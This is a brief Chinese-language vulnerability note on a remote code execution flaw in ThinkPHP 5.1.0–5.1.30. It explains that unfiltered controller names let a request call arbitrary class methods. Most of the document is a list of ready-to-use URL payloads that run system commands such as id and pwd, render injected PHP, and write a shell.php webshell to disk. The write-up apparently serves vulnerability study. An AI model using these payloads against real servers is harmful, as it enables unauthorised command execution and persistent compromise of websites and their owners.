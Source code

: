 ```yaml
---
type: sec-note
title: thinkphp 5.1.x RCE
tags:
  - php
  - thinkphp
  - 漏洞分析
---
```

# thinkphp 5.1.x RCE

## 参考文章

[https://xz.aliyun.com/t/9369](https://xz.aliyun.com/t/9369)

## RCE1

### 根本原因

thinkphp没有对用户传入的操作器名称进行过滤,导致可以调用顶部类中的方法,造成一系列的危害

### 影响版本

TP5.1.0-5.1.30

### payload

 ```PHP
 ?s=index/\think\Request/input&filter[]=system&data=pwd
 ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>#注意由于windows不区分大小写的原因所以这个payload在windows下无法使用
 ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
 ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ```


### 分析
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220306114338.png)
